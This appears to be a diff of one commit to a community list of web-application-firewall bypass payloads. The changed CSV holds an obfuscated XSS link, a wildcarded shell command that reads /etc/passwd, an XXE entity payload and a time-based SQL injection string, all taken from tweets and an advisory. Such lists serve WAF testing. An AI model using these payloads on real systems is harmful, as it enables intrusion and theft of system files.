

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -459,3 +459,3 @@ https://twitter.com/0SPwn/status/1651740036717576195,"""><a href=jav&#x0D;ascrip
 https://twitter.com/0x0SojalSec/status/1653830922679250944,/???/???/c?t$IFS/???/p?s?w?,ptrav
-https://twitter.com/gdprAI/status/1653160069109026816,<!DOCTYPE foo [<!ENTITY % a "&#x3c;&#x21; ... omitted .., xxe
+https://twitter.com/gdprAI/status/1653160069109026816,<!DOCTYPE foo [<!ENTITY % a """&#x3c;&#x21; ... omitted .., xxe
 https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU"},sqli
```
